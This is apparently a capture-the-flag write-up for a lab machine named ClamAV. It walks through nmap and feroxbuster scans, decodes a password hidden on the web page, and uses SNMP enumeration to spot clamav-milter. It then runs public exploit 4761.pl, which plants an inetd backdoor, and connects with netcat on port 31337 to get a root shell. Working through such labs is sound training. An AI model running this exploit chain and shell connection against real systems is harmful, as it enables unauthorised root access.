


ClamAV was an insightful box to explore exploitation techniques for services like ClamAV-Milter.

The process started with comprehensive information gathering, including a full port scan revealing various open ports. 

The HTTP enumeration led to identifying and decoding a binary message, providing a potential password. 

Enumeration of SNMP services helped identify the running ClamAV-Milter service. 

The exploitation phase involved searching for relevant exploits and utilizing a Perl script to create a backdoor by modifying the /etc/inetd.conf file, which enabled root shell access through a netcat connection on a specified port.

# Diagram



## Information Gathering

`IP=192.168.184.42`  

### Port scan

---

- `nmap -sS -Pn -n -T4 --open $IP`
    
    
    
- `nmap -sS -Pn -n -T4 --open -p- $IP` - new port 6000
    
    
    
- `nmap -sVC -Pn -n -p 22,25,80,139,199,445,60000 $IP`
    
    
    

## Enumeration

### HTTP 80

---

- [http://192.168.184.42/](http://192.168.184.42/) → Info in binary. Also the title is called `Ph33r`, looks like an User.
    
    
    
- translating binary - `ifyoudontpwnmeuran00b` -  Looks like an password
    
    
    

- `feroxbuster -u http://$IP -k -C 404,403,500,502  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -X .php -t 100`
    
    
    


### SNMP 199 & 25

---

- `snmpwalk -c public -v1 $IP` - Nothing useful
    
    
    
- `snmp-check $IP -c public`
    
    
    
    
    
    

It’s running  **ClamAV-Milter**

```jsx
3782 runnable clamav-milter /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
```

## Exploitation

### ClamAV

---

Now searching for scripts for ClamAV-Milter

- `searchsploit ClamAV-Milter` → *Only in perl*
    
    
    
- `cat 4761.pl`
    
    
    

This script exploits a vulnerability in Sendmail when used with ClamAV's milter to append a malicious command to `/etc/inetd.conf`, effectively creating a backdoor that grants root access via a shell on a specified TCP port (31337). The script then restarts the inetd service to activate the backdoor.

- `perl 4761.pl $IP`
    
    
    

- `nc $IP 31337
/bin/sh -i`
    
    
    

- `flag`
    
    